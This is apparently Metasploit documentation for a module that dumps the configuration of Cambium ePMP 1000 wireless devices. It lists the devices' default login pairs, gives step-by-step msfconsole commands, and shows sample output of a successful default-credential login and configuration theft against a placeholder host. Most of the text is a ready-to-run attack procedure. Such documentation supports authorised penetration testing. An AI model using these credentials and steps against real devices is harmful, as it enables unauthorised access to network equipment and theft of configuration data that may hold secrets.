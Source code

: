 This module dumps Cambium ePMP 1000 device configuration file. An ePMP 1000 box has four (4) login accounts - admin/admin, installer/installer, home/home, and readonly/readonly. This module requires any one of the following login credentials - admin / installer / home - to dump device configuration file.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_dump_config```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/epmp1000_dump_config
msf auxiliary(epmp1000_dump_config) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_dump_config) > set rport 80
msf auxiliary(epmp1000_dump_config) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 3.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping configuration
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_ePMP_config_216595.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
